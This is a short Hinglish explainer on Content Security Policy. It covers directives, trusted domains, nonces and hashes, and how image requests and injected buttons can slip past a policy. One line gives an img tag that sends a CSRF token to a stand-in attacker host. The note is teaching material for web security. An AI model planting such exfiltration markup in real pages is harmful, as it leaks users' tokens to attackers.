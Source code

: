 # 🔐 CSP (Content Security Policy) kya hota hai?

CSP ek browser ki security technique hai jo mostly XSS jaise attacks ko rokne ke liye banayi gayi hai.

Iska kaam hota hai ke:

Page kin domains se scripts ya images load karein, usko control kare.

Page iframe mein load ho sakta hai ya nahi, wo bhi control kare.

### 🧾 CSP kaam kaise karta hai?

CSP enable karne ke liye, web server response mein ek HTTP header lagata hai:

Content-Security-Policy: [policy]

Policy mein rules (directives) hote hain — alag alag ; se separated.


### 🛡️ Example Policies:

Sirf apni domain se scripts allow:

script-src 'self'

Sirf ek trusted domain se allow:

**script-src https://scripts.normal-website.com**

Lekin agar trusted domain attacker ke control mein aajaye (jaise public CDN — ajax.googleapis.com), toh attack ho sakta hai. Isliye trusted source carefully use karna chahiye.

### 🔐 Advanced Trust Methods:

1. Nonce:

Ek random value hoti hai (jaise: **nonce-xyz123**)

CSP header aur **<script>** tag dono mein match honi chahiye.

Har page load pe new generate honi chahiye.

2. Hash:

Agar ek script static hai, toh uski content ka **SHA256** hash CSP mein daal do.

Agar script badalti hai, hash bhi update karna padega.

### 🎯 Important Point:

CSP aksar script requests block karta hai — lekin image requests ko allow kar deta hai.

Attacker img tag ke zariye sensitive info (jaise CSRF token) apni site pe bhej sakta hai:

**<img src="https://attacker.com/steal?token=XYZ">**

### 😈 Advanced Bypass:

Kuch browsers (Chrome) khud hi kuch malicious characters block karte hain (jaise raw < or \n).

Lekin attacker still HTML element inject karke user se interaction karwa ke data le sakta hai. Jaise koi **<button>** jisko user click kare aur info leak ho jaye.

